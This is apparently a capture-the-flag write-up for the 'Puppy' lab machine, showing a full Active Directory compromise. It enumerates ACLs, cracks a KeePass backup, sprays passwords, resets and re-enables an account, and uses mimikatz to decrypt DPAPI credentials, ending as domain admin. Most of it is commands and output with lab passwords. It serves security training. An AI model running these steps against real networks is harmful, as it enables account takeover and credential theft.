




<p align="center">
  
</p>

# Introduction

Puppy is a Medium Difficulty machine that features a non-default SMB share called `DEV`. With the provided credentials for user `levi.james`, enumeration of the domain is possible. The enumeration reveals that this user has `GenericWrite` privileges over the `Developers` group. After adding Levi to this group, we can access the previously inaccessible `DEV` share. This share contains the backup of a `KeePass` database, which we can download, export the hash of and crack. The database reveals a plethora of username and password combinations. A password spray attack shows that one of the passwords is valid for user `Ant.Edwards`. Furthermore, this new user has `GenericAll` privileges over the user `Adam.Silver`, which allow us to change their password to a password of our choice. After the password is changed, we must re-enable Adam's account, as it has been disabled, which then allows us to connect to the remote system over WinRM. Lateral movement is achieved by finding the backup of a website, which contains credentials for user `Steph.cooper`. Finally, privileges are escalated through `DPAPI` credentials that are decrypted using Steph's password. The credentials revealed belong to `Steph.cooper_adm`, presumably the Administrative account of Steph, and a connection can be made over WinRM.
# Enumeration

### nmap

Let's start by enumerating the services on this host with `nmap`.

```bash
# nmap -A -Pn 10.10.11.70 -oA puppy

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-19 16:24:25Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  status        1 (RPC #100024)
3260/tcp open  iscsi?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (85%)
OS CPE: cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m59s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-19T16:26:17
|_  start_date: N/A

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   15.37 ms 10.10.14.1
2   15.83 ms 10.10.11.70

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 172.48 seconds
```

The presence of LDAP and Kerberos suggests this host is a domain controller.

* Domain: `puppy.htb`
* DC FQDN: `DC.puppy.htb`

I add this information to my `/etc/hosts` file.

```bash
# echo '10.10.11.70 puppy.htb DC.puppy.htb DC' >> /etc/hosts
```

### BloodHound

I harvest the domain's ACLs with `bloodhound-python` using the `levi.james` account.

```bash
# # bloodhound.py --zip -c All -u 'levi.james' -p 'KingofAkron2025!' -dc DC.puppy.htb -d puppy.htb -ns 10.129.232.75
```

`levi.james` is a member of the `HR` group which has the `GenericWrite` privilege on the `Developers` group.



This privilege allows me to add `levi.james` to the `Developers` group.

```bash
# net rpc group addmem "developers" "levi.james" -U "PUPPY.HTB"/"levi.james" -S 10.129.232.75  Password for [PUPPY.HTB\levi.james]:
```

This group provides no further privileges for escalation.

# Finding keepass file in `DEV` share

SMB enumeration reveals that `levi.james` now has read access to the `DEV` share.

```bash
# nxc smb 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!' --shares

SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.10.11.70     445    DC               [*] Enumerated shares
SMB         10.10.11.70     445    DC               Share           Permissions     Remark
SMB         10.10.11.70     445    DC               -----           -----------     ------
SMB         10.10.11.70     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.70     445    DC               C$                              Default share
SMB         10.10.11.70     445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         10.10.11.70     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.70     445    DC               NETLOGON        READ            Logon server share
SMB         10.10.11.70     445    DC               SYSVOL          READ            Logon server share
```

I connect to the share, discover a file named `recovery.kdbx`, and download it.

```bash
# smbclientng -d puppy.htb -u levi.james -p 'KingofAkron2025!' -H DC.puppy.htb
               _          _ _            _
 ___ _ __ ___ | |__   ___| (_) ___ _ __ | |_      _ __   __ _
/ __| '_ ` _ \| '_ \ / __| | |/ _ \ '_ \| __|____| '_ \ / _` |
\__ \ | | | | | |_) | (__| | |  __/ | | | ||_____| | | | (_| |
|___/_| |_| |_|_.__/ \___|_|_|\___|_| |_|\__|    |_| |_|\__, |
    by @podalirius_                             v3.0.0  |___/

[+] Successfully authenticated to 'DC.puppy.htb' as 'puppy.htb\levi.james'!
■[\\DC.puppy.htb\]> use DEV
■[\\DC.puppy.htb\DEV\]> tree
├── Projects/
├── KeePassXC-2.7.9-Win64.msi
└── recovery.kdbx
■[\\DC.puppy.htb\DEV\]> get recovery.kdbx
'recovery.kdbx' ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 2.7/2.7 kB • ? • 0:00:00
```

# Cracking the kdbx file to discover new credentials.

This is a password protected keepass file.
I extract its hash and attempt to crack it with `john`.

```bash
# john --wordlist=/opt/lists/rockyou.txt keepass.hash
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [AES/Argon2 128/128 SSE2])
Cost 1 (t (rounds)) is 37 for all loaded hashes
Cost 2 (m) is 65536 for all loaded hashes
Cost 3 (p) is 4 for all loaded hashes
Cost 4 (KDF [0=Argon2d 2=Argon2id 3=AES]) is 0 for all loaded hashes
Will run 12 OpenMP threads
Note: Passwords longer than 41 [worst case UTF-8] to 124 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Failed to use huge pages (not pre-allocated via sysctl? that's fine)
liverpool        (recovery)
1g 0:00:00:09 DONE (2025-10-17 14:08) 0.1072g/s 3.859p/s 3.859c/s 3.859C/s tigger..liverpool
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

The hash is cracked:
`liverpool`

Using the cracked password, I unlock the KeePass database and find several sets of credentials.



I create a list of the discovered usernames. Two of them, Samuel and Steeve, are invalid.

```bash
# cat credentials.txt

adam.silver:HJKL2025!
ant.edwards:Antman2025!
jamie.williams:JamieLove2025!
```

I test these credentials with `NetExec` over SMB.

```bash
# nxc smb DC.puppy.htb -u users.txt -p passwords.txt --no-bruteforce --continue-on-success
SMB         10.129.232.75   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.232.75   445    DC               [-] PUPPY.HTB\adam.silver:HJKL2025! STATUS_LOGON_FAILURE
SMB         10.129.232.75   445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025!
SMB         10.129.232.75   445    DC               [-] PUPPY.HTB\jamie.williams:JamieLove2025! STATUS_LOGON_FAILURE
```

The scan revealed only one valid account:
`ant.edwards:Antman2025!`

# Changing `adam.silver`'s password

`ant.edwards`, through the `Senior Devs` group, has the `GenericAll` right over `adam.silver`.



With this privilege, I can change `adam.silver`'s password without knowing is current password.

```bash
# net rpc password adam.silver Bagu3tte -U PUPPY.HTB/ant.edwards%Antman2025! -S 10.10.11.70  
```      

I test the new password.

```
# nxc smb DC.puppy.htb -u adam.silver -p Bagu3tte
SMB         10.129.232.75   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.232.75   445    DC               [-] PUPPY.HTB\adam.silver:Bagu3tte STATUS_ACCOUNT_DISABLED
```

NetExec returns that this account is disabled.
Since I have `GenericAll` privileges on this user, I can enable it with `bloodyAD`.

```bash
# bloodyAD --host DC.puppy.htb -d puppy.htb -u ant.edwards -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from adam.silver's userAccountControl
```

Now I can log in.

```bash
# nxc smb DC.puppy.htb -u adam.silver -p Bagu3tte                                              SMB         10.129.232.75   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.232.75   445    DC               [+] PUPPY.HTB\adam.silver:Bagu3tte
```

# Connecting to DC and finding credentials in a backup file

`adam.silver` is able to connect to the DC via PowerShell Remoting.



I connect with `evil-winrm`.

```
# evil-winrm -u adam.silver -p Bagu3tte -i 10.129.232.75                                       
Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\adam.silver\Documents> whoami
puppy\adam.silver
```

There is a Backups folder in `c:\`.

```bash
*Evil-WinRM* PS C:\> dir

    Directory: C:\
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/9/2025  10:48 AM                Backups
d-----         5/12/2025   5:21 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---         7/24/2025  12:30 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----          3/8/2025   9:00 AM                StorageReports
d-r---          3/8/2025   8:52 AM                Users
d-----         5/13/2025   4:40 PM                Windows
```

This zip file is interesting.

```bash
*Evil-WinRM* PS C:\Backups> dir

    Directory: C:\Backups

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip
```

I download it.

```bash
*Evil-WinRM* PS C:\Backups> download "C:/Backups/site-backup-2024-12-30.zip"

Warning: Remember that in docker environment all local paths should be at /data and it must be mapped correctly as a volume on docker run command

Info: Downloading C:/Backups/site-backup-2024-12-30.zip to site-backup-2024-12-30.zip

Info: Download successful!
```

After unzipping it, I find new credentials in an XML file.

```xml
# cat nms-auth-config.xml.bak

<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
```

I try to connect with this account.

```
# nxc smb 10.10.11.70 -u 'steph.cooper' -p 'ChefSteph2025!'
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\steph.cooper:ChefSteph2025!
```

These credentials worked:
`steph.cooper:ChefSteph2025!`

Also, I can connect to the DC with WinRM.

```bash
# evil-winrm -u steph.cooper -p 'ChefSteph2025!' -i 10.129.232.75

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> whoami
puppy\steph.cooper
```

# Discovering and cracking DPAPI

`winpeas` reports that this user has DPAPI credential files.

```bash
checking for DPAPI Credential Files
È  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#dpapi
    CredFile: C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D
    Description: Local Credential Data

    MasterKey: 556a2412-1275-4ccf-b721-e6a0b4f90407
    Accessed: 3/8/2025 8:14:09 AM
    Modified: 3/8/2025 8:14:09 AM
    Size: 11068
   =================================================================================================

    CredFile: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9
    Description: Enterprise Credential Data

    MasterKey: 556a2412-1275-4ccf-b721-e6a0b4f90407
    Accessed: 3/8/2025 7:54:29 AM
    Modified: 3/8/2025 7:54:29 AM
    Size: 414
```

I follow this **HackTricks** [tutorial](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html) to crack these credential files.

The masterkey:

```powershell
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407
```

The user's SID:

```
S-1-5-21-1487982659-1829050783-2281216199-1107
```

As I have the session password, I can decrypt the masterkey with `mimikatz`.
I first upload it.

```bash
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> upload /workspace/puppy/mimikatz/x64/mimikatz.exe

Warning: Remember that in docker environment all local paths should be at /data and it must be mapped correctly as a volume on docker run command

Info: Uploading /workspace/puppy/mimikatz/x64/mimikatz.exe to C:\Users\steph.cooper\Documents\mimikatz.exe

Data: 1666740 bytes of 1666740 bytes copied

Info: Upload successful!
```

Then I launch `mimikatz` by specifying the masterkey path, the user's SID and his password.

```
.\mimikatz.exe "dpapi::masterkey /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 /sid:S-1-5-21-1487982659-1829050783-2281216199-1107 /password:ChefSteph2025! /protected" "exit"

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # dpapi::masterkey /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 /sid:S-1-5-21-1487982659-1829050783-2281216199-1107 /password:ChefSteph2025! /protected

<SNIP>

[masterkey] with password: ChefSteph2025! (protected user)
  key : d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
  sha1: 3c3cf2061dd9d45000e9e6b49e37c7016e98e701

mimikatz(commandline) # exit
Bye!
```

The masterkey is decrypted:
`d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84`

Now I can decrypt this blob:

```
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9
```

I specify the blob path and the masterkey value.

```
.\mimikatz.exe "dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9 /masterkey:d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84" "exit"

  .#####.   mimikatz 2.2.0 (x64) #18362 Feb 29 2020 11:13:36
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # dpapi::cred /in:C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9 /masterkey:d9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

 <SNIP>
 
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000c8 - 200
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 3/8/2025 3:54:29 PM
  unkFlagsOrSize : 00000030 - 48
  Persist        : 00000003 - 3 - enterprise
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:target=PUPPY.HTB
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : steph.cooper_adm
  CredentialBlob : FivethChipOnItsWay2025!
  Attributes     : 0

mimikatz(commandline) # exit
Bye!
```

New credentials inside:
`seph.cooper_adm:FivethChipOnItsWay2025!`
# Connecting as domain administrator

I test these new credentials with NetExec.

```bash
[Oct 17, 2025 - 22:40:45 (CEST)] exegol-m3ringue x64 # nxc smb DC.puppy.htb -u steph.cooper_adm -p 'FivethChipOnItsWay2025!'
SMB         10.129.232.75   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.232.75   445    DC               [+] PUPPY.HTB\steph.cooper_adm:FivethChipOnItsWay2025! (admin)
```

These credentials worked. Moreover, `steph.cooper_adm` is an administrator on the DC.
I Connect with this account.

```powershell
*Evil-WinRM* PS C:\Users\steph.cooper_adm\Documents> whoami /all

USER INFORMATION
----------------

User Name              SID
====================== ==============================================
puppy\steph.cooper_adm S-1-5-21-1487982659-1829050783-2281216199-1111


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ===============================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

I am now connected as an administrator and full compromised the domain.
